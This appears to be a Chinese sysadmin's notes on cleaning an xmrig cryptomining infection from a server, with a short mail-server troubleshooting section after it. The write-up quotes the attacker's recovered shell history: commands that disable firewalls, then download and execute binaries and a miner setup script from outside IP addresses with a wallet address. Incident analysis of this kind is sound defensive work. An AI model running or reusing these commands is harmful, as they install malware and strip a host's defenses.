> 其实计算机世界都很多设计都是人们现实生活的映射，比如稀疏文件的概念你可以想象我让你在一张白纸上画一只小鸟，正常情况你只需要把鸟画出来就行了，白色的部分不用你涂一遍白色。白色的部分就相当于空洞部分，如果一个文件系统不支持洗漱文件相当于你在画画时不能跳过白色的部分，要把白色涂成白色

## xmrig挖矿 病毒入侵

<font color=orange>**现象： **</font> 

1. 云服务商通过查看网络、流量情况，发现有问题，


2. 登录服务器，

   1. 上图中，检测到的是从服务器请求到外部的  AAAA mine.c3pool.com （解析记录）。猜测是c3pool 矿池

   2. find / -name xmrig           检查服务器上病毒脚本位置

   3. top  检查CPU是否有异常进程

   4. vim /root/.bash_history   检查服务器会话日志

      ​	因为一直在向外发送请求，然后建立了tcp连接，过程中超时了触发了tcp重传机制。所以防火墙和ss  并没有异常端口

3. 如何落地的
   1. 从服务器会话日志，得知落地方法：  通过下载外网脚本实现，我下面摘抄一部分
   2. ps x | less    检查类似特殊字眼的进程，将其清除

```bash
curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence;cd /tmp;curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence
systemctl disable firewalld;chkconfig iptables off;ufw disable;curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence;cd /tmp;curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence
systemctl disable firewalld;chkconfig iptables off;ufw disable;curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence;cd /tmp;curl -O http://155.94.154.170:8088/confluence;wget http://155.94.154.170:8088/confluence;chmod 777 confluence;./confluence
curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
yum -y install curl;apt install curl -y;curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
yum -y install curl;apt install curl -y;curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
curl -O http://155.94.154.170/shiro;wget http://155.94.154.170/shiro;chmod 777 shiro;./shiro;cd /tmp;curl -O http://155.94.154.170/shiro;wget http://155.94.154.170/shiro;chmod 777 shiro;./shiro
curl -O http://155.94.154.170/shiro;wget http://155.94.154.170/shiro;chmod 777 shiro;./shiro;cd /tmp;curl -O http://155.94.154.170/shiro;wget http://155.94.154.170/shiro;chmod 777 shiro;./shiro
yum -y install curl;apt install curl -y;curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
curl -s -L http://129.226.180.53/xmrig_setup/raw/master/setup_c3pool_miner.sh | LC_ALL=en_US.UTF-8 bash -s 429uoEyr56F785ZV37v3toR5Es9M79cUvgrbZFP1w2oMDsnYt3aZJ1a5o5RT9osdF65UpcFq9jQECBPqNmXznCih38MGMWS
```

<font color=orange>**解决： **</font> 

1. 将病毒文件夹下，文件更改名字

   打包，杀死病毒相关进程

2. 最后，为防止从外部下载病毒文件， /etc/yum.repos.d/  文件改名字。 并且卸载 curl wget 等命令

   rpm -q curl 

   rpm -e --nodeps curl-xxxxxx

3. 当然，系统运行后一般不需要连通外网，可以把网络断开，不连接外网
4. 更改服务器远程登录密码

**保险方案：**

1. 创建免疫文件

   ​	mkdir -p /root/.ryukd.sh （病毒脚本名称）

   ​	chmod 000 /root/.ryukd.sh

   ​	或者， mkdir -p /root/c3pool

   ​				chattr +i -R /root/c3pool

2. 大致这么几步，不成熟的推测

> 通过 crontab -e 命令删除相关的四条定时任务
> 杀死 xxxx 进程，如果 tsm32、tsm64 进程也存在的话也杀死
> 删除~/.configrc 目录、/tmp/.X25-unix/.rsync 目录、dota3.tar.gz 文件，以及~/.ssh/authorized_keys 文件
> 更新 ssh 的账号密码，因为该木马就是通过爆破 ssh 账号进来的

## linux mail发送邮件不成功

- linux, mail,
  221.236.26.68 发送不了邮件， 且无错误提示

  且，119.3.247.174 也发送不了。。。先把这台搞定，上面的理应同理
  经尝试，内网服务器和IDC托管的可以正常发送了。。云上的在下面有说到

1. yum -y install mailx  postfix

**记录下排查过程：**

​	OS为centos7， 6的话，可能还要安装另外...
vim /var/logs/maillog 跟踪日志
netstat -tlnp | grep :25
nmap 127.0.0.1 -p 25 检查服务是否开启了
which sendmail
ll /usr/sbin/sendmail  接着一步一步，发现软链接指向的是 /usr/sbin/sendmail.postfix
然后，发现 能正常发送邮件的机器上，postfix 服务正在默默的运行着...
​    systemctl status postfix

1. 再者，如若是云服务器（阿里云、华为云），/var/log/maillog 会提示 connect to mxbizl.qq.ccom[xxx] Connection timed out
       很可能是因为25端口被运营商封禁了....可以申请、投诉。或是配置smtp 发送邮件
